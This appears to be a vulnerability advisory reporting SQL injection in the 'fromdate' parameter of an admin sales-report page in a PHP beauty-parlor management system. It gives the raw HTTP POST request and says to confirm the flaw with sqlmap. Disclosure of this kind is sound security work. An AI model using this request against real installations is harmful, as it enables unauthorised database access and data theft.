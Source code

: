 Online Beauty Parlor Management System - SQL Injection on (/admin/sales-reports-detail.php fromdate parameter) 

Vendor Homepage:

```
https://www.campcodes.com/projects/online-beauty-parlor-management-system/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
admin/sales-reports-detail.php
```

On this page, `fromdate` parameter is vulnerable to SQL Injection Attack


Proof of vulnerability(Verify using the sqlmap tool after logining):

Request:

```
POST /bpms/admin/sales-reports-detail.php HTTP/1.1
Host: localhost
Content-Length: 449
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZLoOf7yh0UajdHsN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bpms/admin/sales-reports.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=35oep1of4pinmqsin6t7o6nae7
Connection: keep-alive

------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="fromdate"

2025-09-16
------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="todate"

2025-09-30
------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="requesttype"

mtwise
------WebKitFormBoundaryZLoOf7yh0UajdHsN
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryZLoOf7yh0UajdHsN--

```

<img width="980" height="642" alt="image" src="https://github.com/user-attachments/assets/d85277ef-4048-470b-9f50-704680d907f1" />



